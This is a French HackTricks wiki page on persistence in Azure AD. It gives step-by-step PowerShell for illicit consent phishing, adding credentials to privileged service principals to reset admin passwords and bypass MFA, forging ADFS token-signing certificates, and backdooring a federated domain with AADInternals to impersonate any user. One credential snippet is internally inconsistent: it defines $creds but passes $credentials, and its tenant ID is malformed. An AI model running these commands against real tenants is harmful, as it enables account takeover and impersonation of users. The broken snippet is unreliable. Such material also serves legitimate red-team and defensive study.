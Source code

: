 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Consentement Illicite

Par défaut, tout utilisateur peut enregistrer une application dans Azure AD. Vous pouvez donc enregistrer une application (uniquement pour le locataire cible) qui nécessite des autorisations à fort impact avec le consentement de l'administrateur (et l'approuver si vous êtes l'administrateur) - comme envoyer des mails au nom d'un utilisateur, gestion des rôles, etc. Cela nous permettra d'**exécuter des attaques de phishing** qui seraient très **fructueuses** en cas de succès.

De plus, vous pourriez également accepter cette application avec votre utilisateur comme moyen de maintenir l'accès.

### Applications et Principaux de Service

Avec les privilèges d'Administrateur d'Application, GA ou un rôle personnalisé avec des autorisations microsoft.directory/applications/credentials/update, nous pouvons ajouter des identifiants (secret ou certificat) à une application existante.

Il est possible de **cibler une application avec des autorisations élevées** ou **d'ajouter une nouvelle application** avec des autorisations élevées.

Un rôle intéressant à ajouter à l'application serait le **rôle d'administrateur d'authentification privilégiée** car il permet de **réinitialiser le mot de passe** des Administrateurs Globaux.

Cette technique permet également de **contourner la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Pour l'authentification basée sur des certificats

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Fédération - Certificat de signature de jeton

Avec **des privilèges DA** sur AD local, il est possible de créer et d'importer de **nouveaux certificats de signature de jeton** et de **décryptage de jeton** qui ont une très longue validité. Cela nous permettra de **nous connecter en tant que n'importe quel utilisateur** dont nous connaissons l'ImuutableID.

**Exécutez** la commande ci-dessous en tant que **DA sur le(s) serveur(s) ADFS** pour créer de nouveaux certificats (mot de passe par défaut 'AADInternals'), les ajouter à ADFS, désactiver le renouvellement automatique et redémarrer le service :
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ensuite, mettez à jour les informations du certificat avec Azure AD :
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Fédération - Domaine de confiance

Avec des privilèges GA sur un locataire, il est possible d'**ajouter un nouveau domaine** (doit être vérifié), de configurer son type d'authentification en tant que Fédéré et de configurer le domaine pour **faire confiance à un certificat spécifique** (any.sts dans la commande ci-dessous) et à l'émetteur :
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Références

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
